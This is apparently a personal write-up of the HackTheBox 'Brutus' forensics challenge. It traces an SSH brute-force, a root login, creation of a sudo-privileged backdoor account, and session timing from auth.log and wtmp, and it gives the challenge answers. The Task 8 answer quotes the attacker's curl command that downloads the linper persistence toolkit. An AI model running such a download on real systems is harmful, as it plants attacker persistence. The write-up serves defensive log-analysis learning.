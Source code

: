 # [HackTheBox Sherlocks - Brutus](https://app.hackthebox.com/sherlocks/Brutus/play)
Created: 19/05/2024 13:42
Last Updated: 19/05/2024 14:48
* * *
![a93333357ea1b089a15b67e9f282f70f.png](../../../_resources/a93333357ea1b089a15b67e9f282f70f.png)

**Scenario:**
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

* * *
>Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

![b1deff4f148d8d2c8ed975a95c07144f.png](../../../_resources/b1deff4f148d8d2c8ed975a95c07144f.png)
Lets start by finding those Failed password login in a short span of time which there is only this 1 IP has this pattern which mean its an IP address of the attacker
```
65.2.161.68
```

>Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

![f38d44512534f5a6f018c9044b2d685b.png](../../../_resources/f38d44512534f5a6f018c9044b2d685b.png)
Filtered for "Accept password" then look for first Accepted password log after those failed password log then you can see that automated tool successfully identified root's password
```
root
```

>Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Successfully logged in as root from previous task was done by automated tool so we need to go to next successfully login
![9639df656e4e2f281424d95e48181b72.png](../../../_resources/9639df656e4e2f281424d95e48181b72.png)
We need to correlate timestamp here so lets filter our from auth.log using `cat auth.log | grep "Accept"` first then use `utmpdump wtmp | grep "root"` to print historical log of login and logout activity of root user

From the result you can see there is one there
```
2024-03-06 06:32:45
```

>Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

![239d64e9904c164aed7158fb7a797a58.png](../../../_resources/239d64e9904c164aed7158fb7a797a58.png)
Session number can be found on auth.log after session opened then we can use `cat auth.log | grep "root"` to get all logs related to root 

You can see that there are 2 sessions were opened by root, first is automated tool that was closed instantly and the second one is what we are looking for
```
37
```

>Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

![0800c3baf323f79b8e2255b6c7bba6e5.png](../../../_resources/0800c3baf323f79b8e2255b6c7bba6e5.png)
We need to find "useradd" log on auth.log
But to make it universal, I used`cat auth.log | grep "add"` to filter out all add event including groupadd too which you can see that the attacker added "cyberjunkie" user then added this user to "sudo" and "shadow" group
```
cyberjunkie
```

>Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?

![0e6263b2524d37baad2772f4815bfa89.png](../../../_resources/0e6263b2524d37baad2772f4815bfa89.png)
It is [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
```
T1136.001
```

>Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

![02f1e11cd49104ec62c9733773f1766c.png](../../../_resources/02f1e11cd49104ec62c9733773f1766c.png)
Lets go grab session opened and session closed time of session 37 from auth.log
![47cb74e12400ee434d39718e2a4521c8.png](../../../_resources/47cb74e12400ee434d39718e2a4521c8.png)
Use time and date calculator, the different between 06:32:44 and 06:37:24 is 280 but its not the right answer so I checked out wtmp for more details if something is different
![2aa05a4a2069d6a4a6885b70f7f35c2c.png](../../../_resources/2aa05a4a2069d6a4a6885b70f7f35c2c.png)
So it turns out that it was not logged as 06:32:44 but 06:32:45 (1 second different), then the actual different should be 279 seconds
```
279
```

>Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

![868091f31848ab9b395e198589a87f23.png](../../../_resources/868091f31848ab9b395e198589a87f23.png)
Use `cat auth.log | grep "sudo"` to filter out for "sudo" then we can see that this newly added user used curl to download [linper](https://github.com/montysecurity/linper) (Linux Persistence Toolkit) from github
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

![3ef789dc55523add7f6523fef100bb7a.png](../../../_resources/3ef789dc55523add7f6523fef100bb7a.png)
* * *
